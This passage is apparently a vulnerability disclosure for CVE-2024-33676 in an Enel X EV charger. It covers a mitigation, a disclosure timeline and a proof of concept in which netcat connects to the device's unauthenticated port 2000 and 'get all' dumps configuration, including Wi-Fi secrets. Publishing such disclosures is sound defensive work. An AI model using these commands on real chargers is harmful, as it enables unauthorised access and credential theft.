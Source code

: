 Option 2: Disable with remote_terminal.enabled parameter
```
> set re e false
> save
```

NOTE: It appears the local website uses this command interface to populate it's
information, so modifying these settings will likely make the local web service
inoperable, e.g., `gecko-os.js` uses `GET http://setup.com/command/get%20all`. 

## Not-so-coordinated Disclosure

### Timeline

* **2023-06-30** - Created VINCE Report. Attempted to contact Enel X via email, website, and LinkedIn.
* **2023-06-30** - Notified US co-op of exposed devices. 
* **2023-11-30** - CERT/CC unable to contact Enel X, says "At this point, I think it's best to apply for a CVE and go public."
* **2024-4-25** - MITRE assigns CVE-2024-33676. 
* **2024-10-11** - Enel X Way announces it’s shutting down its North American charging business.  
* **2025-1-7** - VoltiE Group and partners acquire Enel X North America.
* **2025-7-26** - Researcher discloses vulnerability at BSides Albuquerque.

### Reporter 
Jay Johnson at DER Security

(With a special thanks to Brian Wright at Sandia National Laboratories for support with this research.)

## POC
If on the network with the EV Charger, an adversary can netcat to port 2000 and then interact with the equipment 
using the [Gecko OS API commands](https://docs.silabs.com/gecko-os/4/standard/latest/cmd/commands).

For example, getting the Wi-Fi password, networking information, and other sensative information can be accomplished 
with `get all`. 

```
$ nc 192.168.10.30 2000
EMWERK-JB201-1.0.46, Gecko_OS-STANDARD-4.2.7-11064, WGM160P
> get all
get all
app.debug.auto_run: 1
app.debug.ignore_settings: 0
app.info:
SDK version : 11064
Name : JBox_BT_Final.app
Size : 274852
Running : 1
broadcast.data: mac,bssid,channel,ip,ssid,rssi,remote_terminal_port,time,version,uuid
broadcast.http.host:
broadcast.interface: default
broadcast.interval: 10
broadcast.udp.ip: 255.255.255.255
broadcast.udp.local_port: 55555
broadcast.udp.remote_port: 55555
bus.command.read_timeout: 250
bus.command.rx_bufsize: 4096
bus.command.write_check_enabled: 0
bus.command.write_timeout: 25000
bus.data_bus: uart0
bus.log_bus: uart0
bus.mode: command
```